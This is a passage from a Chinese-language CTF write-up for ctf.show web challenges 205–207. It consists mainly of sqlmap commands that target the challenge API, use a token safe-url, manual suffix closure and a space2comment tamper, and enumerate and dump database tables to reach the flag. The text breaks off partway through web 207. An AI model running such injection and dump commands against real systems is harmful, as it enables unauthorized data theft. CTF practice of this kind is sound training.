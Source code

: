  ```bash
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flax -C flagx --dump --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
```

## web 206

sql需要闭合

sqlmap会自动识别和闭合。也可以手动闭合，–suffix:指定payload后面加的后缀，可以添加多个

`--suffix="')#"`

打开f12，在查询框输入1，可以看到网络调用api时，还请求了一个getToken.php。和上一题相似

直接跑了

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库来爆表名     ctfshow_flaxc
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表爆字段   flagv,id,tes
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxc --columns --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxc -C flagv --dump --safe-url https://16ec6605-409e-40f0-aad3-0d62d3895baa.challenge.ctf.show/api/getToken.php --safe-freq 1
```

## web 207

--tamper 的初体验   tamper绕过空格

`--tamper=space2comment`   太好玩辣，就是跑的慢

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库来爆表名     ctfshow_flaxca
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表爆字段   flagvc,id,tes
sqlmap -u https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flaxca --columns --safe-url https://13340161-ae12-4aca-86c0-d7a4876769c0.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper=space2comment
# 指定数据库,表,字段,列表爆数据
 ```
